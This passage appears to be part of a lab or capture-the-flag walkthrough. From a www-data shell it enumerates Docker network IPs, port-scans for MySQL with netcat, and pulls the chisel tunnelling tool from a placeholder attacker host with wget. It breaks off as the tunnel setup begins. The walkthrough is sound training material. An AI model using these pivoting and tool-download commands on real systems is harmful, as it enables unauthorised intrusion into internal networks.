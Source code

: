 
2.  **Enumerate Internal Network IPs (Docker Environment):**

    * **Action:** Discover other IPs within the internal Docker network, as MySQL wasn't externally accessible.

    * **Command:**

        ```bash

        cat /proc/net/arp

        ```

    * **Observation:** Identified internal IPs like `172.18.0.1`, `172.18.0.2`, `172.18.0.3`.


3.  **Port Scan Internal IPs for MySQL (Port 3306):**

    * **Action:** Confirm which internal IP is running MySQL.

    * **Command:**

        ```bash

        for ip in 172.18.0.{1..3}; do echo "Checking $ip"; nc -vz $ip 3306 2>&1 | grep succeed; done

        ```

    * **Observation:** Port 3306 (MySQL) was open on `172.18.0.2`.


4.  **Transfer Chisel to Target for Port Forwarding:**

    * **Action:** Download `chisel` to your attacker machine and serve it with your Python web server, then download it to the target.

    * **Step 4.1: Download Chisel to Attacker:**

        ```bash

        wget [https://github.com/jpillora/chisel/releases/download/v1.x.x/chisel_1.x.x_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.x.x/chisel_1.x.x_linux_amd64.gz) # Adjust version

        gunzip chisel_*.gz

        mv chisel_linux_amd64 ~/robots_payloads/

        ```

    * **Step 4.2: Transfer Chisel to Target (from `www-data` shell):**

        ```bash

        cd /tmp; wget http://<YOUR_ATTACKER_IP>/chisel_linux_amd64

        chmod +x chisel_linux_amd64

        ```


5.  **Configure and Initiate Chisel Tunnel:**

    * **Action:** Set up the `chisel` server on your attacker machine and the client on the target.
